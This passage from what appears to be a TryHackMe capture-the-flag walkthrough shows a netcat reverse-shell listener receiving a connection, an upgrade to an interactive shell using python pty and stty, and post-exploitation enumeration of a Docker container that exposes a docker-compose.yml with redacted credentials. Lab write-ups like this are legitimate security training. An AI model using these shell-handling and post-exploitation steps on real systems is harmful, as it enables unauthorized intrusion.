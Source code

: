 ![](/assets/img/posts/walthrough/tryhackme/2024-10-08-thenewyorkflankees/shell-2.png)

If we return to our listener, we will see a reverse connection from the target. We can upgrade this simple shell to a fully interactive shell as shown below.
```bash
┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/New York Flankees]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.8.23.19] from (UNKNOWN) [10.10.168.57] 55502
bash: cannot set terminal process group (1): Inappropriate ioctl for device
bash: no job control in this shell
root@02e849f307cc:/# python3 -c "import pty;pty.spawn('/bin/bash')" 
python3 -c "import pty;pty.spawn('/bin/bash')"
root@02e849f307cc:/# ^Z
zsh: suspended  nc -lvnp 1234

┌──(pentester㉿kali)-[~/Desktop/TryHackMe/Challenge/New York Flankees]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1234
                               export TERM=xterm
root@02e849f307cc:/# whoami
root
```

## Post Exploitation

We have obtained root access in a docker run by the target. After a filesystem enumeration, we will discover the second flag in the docker-compose.yml file in the /app directory.
```bash
root@02e849f307cc:/# ls
app  boot  etc   lib    media  opt   root  sbin  sys  usr
bin  dev   home  lib64  mnt    proc  run   srv   tmp  var
root@02e849f307cc:/# cd app
root@02e849f307cc:/app# ls
Dockerfile          gradle             ktor-docker-sample.jar
README.md           gradle.properties  settings.gradle.kts
build.gradle.kts    gradlew            src
docker-compose.yml  gradlew.bat
root@02e849f307cc:/app# cat docker-compose.yml 
version: "3"
services:
  web:
    build: .
    ports:
      - "8080:8080"
    volumes:
      - /var/run/docker.sock:/var/run/docker.sock
    restart: always
    environment:
      - CTF_USERNAME=stefan1197
      - CTF_PASSWORD=<REDACTED>
      - CTF_ENCRYPTION_KEY=<REDACTED>
      - CTF_ENCRYPTION_IV=<REDACTED>
```